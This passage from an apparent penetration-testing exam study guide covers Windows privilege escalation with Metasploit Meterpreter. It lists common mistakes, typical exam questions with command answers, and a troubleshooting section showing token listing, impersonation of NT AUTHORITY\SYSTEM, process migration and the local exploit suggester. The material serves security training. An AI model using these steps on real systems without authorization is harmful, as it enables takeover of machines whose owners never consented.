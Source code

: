 #### **🎯 Common Mistakes to Avoid:**
1. **Skipping getuid Check** → Always verify current privileges first
2. **Not Loading Incognito** → Token impersonation requires this module
3. **Wrong Token Format** → Use exact format: "NT AUTHORITY\\SYSTEM"
4. **Ignoring Session Numbers** → Track which session you're working with
5. **Rushing Verification** → Always confirm escalation worked with getuid/getprivs

#### **✅ Signs You're Doing Well:**
- **Quick Status Assessment** → Current privileges identified within 1 minute
- **Successful Token Enumeration** → Available tokens discovered quickly
- **Clean Impersonation** → Token stealing completed without errors
- **Privilege Verification** → SYSTEM or Administrator access confirmed
- **Multiple Methods** → Can use both manual and automated approaches

### **🔍 Typical Exam Questions You'll See:**
1. **"What privileges does your current user have?"**
   - Answer: Use `getuid` and `getprivs` commands

2. **"List all available tokens on the compromised system"**
   - Answer: Use `load incognito` then `list_tokens -u`

3. **"Escalate privileges to SYSTEM level using token impersonation"**
   - Answer: Use `impersonate_token "NT AUTHORITY\\SYSTEM"`

4. **"Find potential privilege escalation vulnerabilities automatically"**
   - Answer: Use `post/multi/recon/local_exploit_suggester`

---

## ⚠️ Common Problems and How to Fix Them

### **❌ Problem 1: No Tokens Available for Impersonation**

**What You See:**
```bash
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
No tokens available

Impersonation Tokens Available  
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

**How to Fix:**
```bash
# Step 1: Try process migration to higher privilege process
meterpreter > ps
# Look for processes running as SYSTEM or Administrator

meterpreter > migrate [high_privilege_pid]
# Migrate to process with higher privileges

# Step 2: Try again after migration
meterpreter > list_tokens -u
# Should show more tokens after migration

# Step 3: Alternative - Use exploit suggester
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION 1
exploit
```
